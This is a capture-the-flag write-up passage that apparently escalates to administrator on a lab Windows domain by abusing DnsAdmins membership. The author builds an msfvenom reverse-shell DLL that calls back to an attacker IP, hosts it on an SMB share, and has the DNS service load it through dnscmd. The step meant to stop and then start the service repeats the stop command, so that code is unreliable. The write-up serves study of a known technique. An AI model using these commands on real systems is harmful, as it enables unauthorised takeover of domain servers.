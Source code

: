 This returned a bunch of groups so I started to google every single group until I landed on DnsAdmins

```
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
```

A quick google search on DnsAdmins provided a well-written exploit guide, through [this](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2)
 

### **Creating our payload and using it**

For the privesc payload, I used msfvenom as outlined in the exploit guide to create my payload. The dll file can be created with the following command:

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.15.104 LPORT=4444 -f dll > privesc.dll`
```

After the payload was created, I setup an nc listener with `nc -lvnp 4444` in another window

```
nc -lvnp 4444
```

To get the dll file onto the remote machine, I used `impacket` to host the dll file on my host machine, and then used `dnscmd.exe` as ryan to take the hosted dll.

```
sudo python3 smbserver.py -smb2support share ./

dnscmd.exe 10.10.10.169 /config /serverlevelplugindll \\10.10.15.104\share\privesc.dll
```

As ryan again, I stopped and started the dns service for the injected dll to take effect.
```
sc.exe \\10.10.10.169 stop dns
sc.exe \\10.10.10.169 stop dns
```

This should start the reverse shell back to our listener, providing us root access to the box. Check with `whoami` and you should get administrator back. 

Navigate to the root desktop, and the root.txt should be there.

## **What did I learn?**
- enum4linux
- How to use evil-winrm
- How to use impacket to host a file on a server
- A little bit of powershell